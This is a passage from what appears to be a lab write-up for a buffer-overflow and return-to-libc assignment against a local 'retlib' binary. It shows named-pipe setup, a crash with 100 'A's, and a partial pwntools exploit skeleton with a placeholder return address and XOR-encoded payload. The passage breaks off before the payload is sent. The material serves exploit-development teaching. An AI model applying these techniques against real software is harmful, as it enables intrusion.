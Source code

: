 To demonstrate, a named pipe can be created in the `/tmp/` directory.

```shell
/tmp/:$ mkfifo badfile
/tmp/:$
```

Next, the `retlib` binary is run. The binary blocks on input.

```shell
/tmp/:$ /vagrant/assignment1/retlib

```

Next, a 101 bytes of data is written into the named pipe, which in turn is
received by the `retlib` binary.

```shell
/tmp/:$ python -c 'print "A"*100' > /tmp/badfile
/tmp/:$
```

Back in the `retlib` run, it crashes with a segmentation fault.

```shell
$ /vagrant/assignment1/retlib
Segmentation fault (core dumped),
```

The important feature about the named pipe is that a process that supplied the
initial buffer overflow payload can continue to interact with the `retlib`
binary. This is exactly the behaviour desired when writing a multistage exploit.

To begin with, we can create a skeleton exploit script to setup the named pipe
and interact with the `retlib` binary.

```python
from pwn import *
import os
import posix

def main():

    # Get the absolute path to retlib
    retlib_path = os.path.abspath("./retlib")

    # Change the working directory to tmp and create a badfile
    # This is to avoid problems with the shared directory in vagrant
    os.chdir("/tmp")

    # Create a named pipe to interact reliably with the binary
    try:
        os.unlink("badfile")
    except:
        pass
    os.mkfifo("badfile")

    # Start the process
    p = process(retlib_path)

    # Open a handle to the input named pipe
    comm = open("badfile", 'w', 0)

    # Setup the payload
    payload  = "A"*24
    payload += p32(0xdeadbeef)
    payload  = payload.ljust(52, "\x90")
    payload  = xor(payload, 0xbe)

    # Send the payload
```